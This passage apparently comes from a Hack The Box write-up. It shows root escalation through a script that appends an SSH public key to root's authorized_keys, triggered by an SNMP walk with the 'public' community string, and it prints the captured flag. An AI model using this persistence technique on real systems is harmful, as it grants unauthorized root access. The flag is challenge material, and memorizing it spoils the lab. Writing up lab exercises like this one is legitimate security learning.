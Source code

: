 None of those worked. But **SSH** DID!!! <br>

I just created a script to add a **public key** to root's **authorized_keys**, with the following
```bash
cmd: echo '#!/bin/bash' > check_www.sh
cmd: echo -n 'echo "<ssh_pub_key_here>" >> /root/.ssh/authorized_keys' >> check_www.sh
cmd: cp check_www.sh /usr/local/monitoring/check_www.sh
``` 

Then issue this command while the script still "alive" (HTB clean them fast): ```snmpwalk -v 2c -c public 10.10.10.241 iso.3.6.1.4.1.8072.1.3.2.2.1```

And ssh to it! 
```bash
cmd: whoami && id
root
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
cmd: cat root.txt
# FLAG: d7721aa52dad2ca73fc64cf519e12c30
```